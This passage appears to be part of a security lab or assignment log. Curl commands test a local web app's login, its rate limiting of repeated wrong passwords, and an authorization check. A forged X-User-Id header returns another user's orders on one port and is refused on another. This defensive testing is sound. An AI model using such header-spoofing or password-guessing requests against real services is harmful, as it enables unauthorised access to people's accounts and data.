Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 13
Connection: close

{"ok":false}


$ curl -sS -i -X POST http://localhost:8080/api/login -H Content-Type:\ application/json -d \{\"username\":\"alice\"\,\"password\":\"alice123\"\} 
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"is_admin":false,"ok":true,"user_id":1}


$ seven wrong-password attempts to http://localhost:8081/api/login
401
401
401
401
401
429
429
```

### Task audit transcript

```text
danaiphong | 6631503106 | 2026-10-23 21:54:03 +07

$ curl -sS -i -H X-User-Id:\ 3 http://localhost:8081/api/users/3/orders 
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 55
Connection: close

[{"item":"Server rack","order_id":"C-1","total":5000}]


$ curl -sS -i -H X-User-Id:\ 3 http://localhost:8082/api/users/3/orders 
HTTP/1.1 401 UNAUTHORIZED
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 36
Connection: close

{"error":"authentication required"}
```
